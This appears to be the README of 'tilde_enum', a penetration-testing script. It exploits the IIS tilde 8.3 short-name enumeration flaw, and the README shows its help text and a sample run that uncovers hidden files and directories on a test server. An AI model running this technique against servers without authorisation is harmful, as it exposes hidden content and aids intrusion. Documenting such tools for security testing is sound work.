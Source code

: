 tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized by the vulnerability). You should still try to enumerate directories using a word list and [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Always enjoy feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-b] [-d DIRWORDLIST] [-f] [-u URL] [-v] wordlist

Exploits and expands the file names found from the tilde enumeration vuln

positional arguments:
  wordlist        the wordlist file

optional arguments:
  -h, --help      show this help message and exit
  -b              brute force backup extension, extensions
  -d DIRWORDLIST  an optional wordlist for directory name content
  -f              force testing of the server even if the headers do not
                  report it as an IIS system
  -u URL          URL to scan
  -v              verbose output
  -w WAIT         time in seconds to wait between requests
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis /pentest/fuzzdb/discovery/predictableres/raft-small-words-lowercase.txt -d /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://iis/mhxWjUz25u.htm
[-]	URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://iis
[-]	URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://iis/parameter.xml
[*]  Found one! (Size 1754) http://iis/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://iis/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://iis/documentation/
[*]  Found one! (Size 1433) http://iis/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://iis/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://iis/documentation/advertising.html
[*]  Found one! (Size 1433) http://iis/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://iis/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://iis/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://iis/_vti_inf.html  - Size 1754
[*]      http://iis/documentation/advertising.html  - Size 227
[*]      http://iis/documentation/default.aspx  - Size 1433
[*]      http://iis/javascript/321.xlsx  - Size 227
[*]      http://iis/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://iis/documentation/advert~1.htm
[*]      http://iis/documentation/defaul~1.asp
[*]      http://iis/765432~1.htm
[*]      http://iis/_vti_i~1.htm
[*]      http://iis/parame~1.xml
[*]      http://iis/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://iis/documentation/  - Size 1433
[*]      http://iis/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://iis/_vti_s~1/
[?]      http://iis/aspnet~1/
[?]      http://iis/copyof~1/
[?]      http://iis/docume~1/
[?]      http://iis/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://iis/aspnet_client/  - Size 218
</pre>
